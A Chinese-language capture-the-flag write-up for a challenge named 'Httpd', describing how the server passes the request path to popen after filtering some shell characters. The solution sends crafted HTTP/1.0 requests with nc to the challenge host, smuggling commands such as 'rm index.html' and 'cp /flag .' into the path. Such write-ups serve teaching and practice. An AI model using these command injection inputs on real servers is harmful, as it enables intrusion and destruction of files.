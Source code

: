 # Httpd

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x86   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

考了逆向，也不怎么需要利用

程序首先检验了是否是HTTP/1.0协议以及请求头是否是先Host和再Content-Length并且Length是否小于10000
（导致用不了curl），随后会对RES过滤`/ bin sh $ ; |`等符号与路径穿越，然后尝试`popen($RES)`
（关闭了输出流，因此无法打印内容），再尝试打印RES（若是文件），
若RES是路径先附加"index.html"尝试打印，若html文件不存在则列出文件内容。

经尝试，当前目录下没有flag，从根目录下面复制一个打印就可以

重复执行`nc 139.155.126.78 31426 < req`与靶机交互

```plaintext
GET $(RES) HTTP/1.0
Host: 139.155.126.78:31426
Content-Length: 100
```

依次尝试以下`$(RES)`

```plaintext
/check/
/rm%20index.html
/./
/cp%20/flag%20.
/flag
```

<img src="assets/httpdFlag.png" height="60%" width="60%">

